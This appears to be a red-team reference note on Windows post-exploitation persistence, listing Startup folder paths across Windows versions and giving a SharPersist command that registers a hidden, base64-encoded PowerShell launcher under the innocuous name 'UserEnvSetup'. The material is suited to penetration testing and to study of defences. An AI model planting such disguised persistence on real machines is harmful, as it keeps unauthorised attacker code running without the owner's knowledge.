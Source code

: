 # Startup

## 01 - Manual

### 1.1 - Workstation

#### 1.1.1 - Windows XP

```
C:\Documents and Settings\All Users\Start Menu\Programs\Startup

C:\Documents and Settings\%username%\Start Menu\Programs\Startup

%AllUsersProfile%\Start Menu\Startup

%UserProfile%\Start Menu\Startup
```

#### 1.1.2 - Windows 7 and Later

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

%ProgramData%\Microsoft\Windows\Start Menu\Programs\StartUp

C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
```

### 1.2 - Servers

#### 1.2.1 - Windows Server 2003

```
C:\Documents and Settings\All Users\Start Menu\Programs\Startup

C:\Documents and Settings\%username%\Start Menu\Programs\Startup

%AllUsersProfile%\Start Menu\Startup

%UserProfile%\Start Menu\Startup
```

#### 1.2.2 - Windows Server 2008 R2 and Later

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

## 02 - Shortcut Links

TODO: Use the same method from the [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut Link File/Windows/Living off the Land|initial foothold section]] via powershell.

## 03 - SharPersist

```
C:\> SharPersist.exe -t startupfolder -c <command> -a [args] -f "<StartUp Name>" -m <add | remove | check | list>

C:\> SharPersist.exe -t startupfolder -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -f "UserEnvSetup" -m add
```

## 04 - Metasploit

---
## References

- [[Windows Post Exploitation Persistence References]]